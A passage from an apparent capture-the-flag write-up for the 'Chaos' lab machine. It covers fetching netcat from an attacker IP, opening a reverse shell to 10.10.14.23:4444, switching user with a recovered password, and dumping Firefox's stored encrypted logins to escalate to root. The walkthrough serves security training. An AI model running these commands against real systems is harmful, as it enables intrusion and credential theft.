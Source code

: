 We still want to get a proper shell so what I did was download `nc` to the box and then spawn a reverse shell:

```
> wget -O /tmp/nc 10.10.14.23/nc
 
> chmod +x /tmp/nc
 
> /tmp/nc -e /bin/bash 10.10.14.23 4444

[...]

# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.120] 52378
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$
```

There's not much we can do with `www-data` except look at the web app source code and get the MySQL password for the Wordpress and Roundcube install. But we already have the `ayush` credentials so we can `su` to this user and get the `user.txt` flag:

```
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ su -l ayush
Password: jiujitsu

ayush@chaos:~$ cat user.txt
Command 'cat' is available in '/bin/cat'
The command could not be located because '/bin' is not included in the PATH environment variable.
cat: command not found
ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
<l/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:~$ cat user.txt
eef391...
```

### Privesc through Firefox credentials

Remember that webmin page? By default, the `root` user credentials are used to log in to the application. When we look at `ayush` home directory, we see there's a `.mozilla` folder in there with some encrypted Firefox credentials in `logins.json`:

```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ cat logins.json
cat logins.json
{"nextId":3,"logins":[{"id":2,"hostname":"https://chaos.htb:10000","httpRealm":null,"formSubmitURL":"https://chaos.htb:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb","guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}","encType":1,"timeCreated":1540642202692,"timeLastUsed":1540642202692,"timePasswordChanged":1540642202692,"timesUsed":1}],"disabledHosts":[],"version":2}
```
